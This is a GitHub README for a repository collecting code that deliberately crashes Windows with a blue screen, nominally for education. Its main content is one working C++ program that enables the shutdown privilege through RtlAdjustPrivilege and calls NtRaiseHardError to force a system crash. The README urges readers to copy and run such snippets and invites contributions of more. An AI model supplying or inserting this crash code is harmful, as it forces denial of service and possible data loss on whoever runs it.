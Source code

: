 # BSOD-in-every-language

"BSOD-in-every-language" is a collection of code snippets in various programming languages that can trigger a Windows BSOD. The repository is intended for educational and research purposes only and aims to showcase how programming languages can interact with the Windows operating system in unexpected ways.


## Codes
### C++
`
#include <iostream>
#include <Windows.h>
#include <winternl.h>
using namespace std;
typedef NTSTATUS(NTAPI *pdef_NtRaiseHardError)(NTSTATUS ErrorStatus, ULONG NumberOfParameters, ULONG UnicodeStringParameterMask OPTIONAL, PULONG_PTR Parameters, ULONG ResponseOption, PULONG Response);
typedef NTSTATUS(NTAPI *pdef_RtlAdjustPrivilege)(ULONG Privilege, BOOLEAN Enable, BOOLEAN CurrentThread, PBOOLEAN Enabled);
int main()
{
    BOOLEAN bEnabled;
    ULONG uResp;
    LPVOID lpFuncAddress = GetProcAddress(LoadLibraryA("ntdll.dll"), "RtlAdjustPrivilege");
    LPVOID lpFuncAddress2 = GetProcAddress(GetModuleHandle("ntdll.dll"), "NtRaiseHardError");
    pdef_RtlAdjustPrivilege NtCall = (pdef_RtlAdjustPrivilege)lpFuncAddress;
    pdef_NtRaiseHardError NtCall2 = (pdef_NtRaiseHardError)lpFuncAddress2;
    NTSTATUS NtRet = NtCall(19, TRUE, FALSE, &bEnabled); 
    NtCall2(STATUS_FLOAT_MULTIPLE_FAULTS, 0, 0, 0, 6, &uResp); 
    return 0;
}`

## Usage

**WARNING: Running this code on your computer can cause a Blue Screen of Death (BSOD) and result in data loss. Use at your own risk.**

To test the code snippets in this repository, you will need a Windows computer. Simply copy and paste the code into a file with the appropriate file extension for the programming language you are using, and run the code on your computer.

## Contributing

Contributions to this repository are welcome! If you have code snippets that can trigger a BSOD in a programming language that is not currently represented in the repository, please feel free to submit a pull request.

## License

This repository is licensed under the [MIT License](LICENSE).
